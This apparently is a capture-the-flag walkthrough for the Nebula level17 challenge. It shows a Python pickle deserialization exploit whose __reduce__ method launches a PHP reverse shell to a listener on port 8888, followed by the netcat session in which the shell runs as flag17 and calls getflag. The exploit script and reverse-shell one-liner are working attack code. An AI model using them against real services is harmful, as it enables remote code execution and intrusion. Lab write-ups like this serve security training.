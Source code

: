 ```
level17@nebula:/tmp$ cat exploit.py
#!/usr/bin/env python

import socket,pickle,subprocess

class Exploit(object):
  def __reduce__(self):
    fd = 12
    return (subprocess.Popen, (['/usr/bin/php', '-r', '$sock=fsockopen("127.0.0.1",8888);exec("/bin/sh -i <&4 >&4 2>&4");'],))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 10007))
s.send(pickle.dumps(Exploit()))
print s.recv(1024)

level17@nebula:/tmp$ python exploit.py
Accepted connection from 127.0.0.1:36439
```

On another shell:
```
level17@nebula:/home/nebula$ nc -l 8888
sh: no job control in this shell
sh-4.2$ id
id
uid=982(flag17) gid=982(flag17) groups=982(flag17)
sh-4.2$ getflag
getflag
You have successfully executed getflag on a target account
```
## References

 * https://docs.python.org/2/library/pickle.html
 * https://blog.nelhage.com/2011/03/exploiting-pickle/
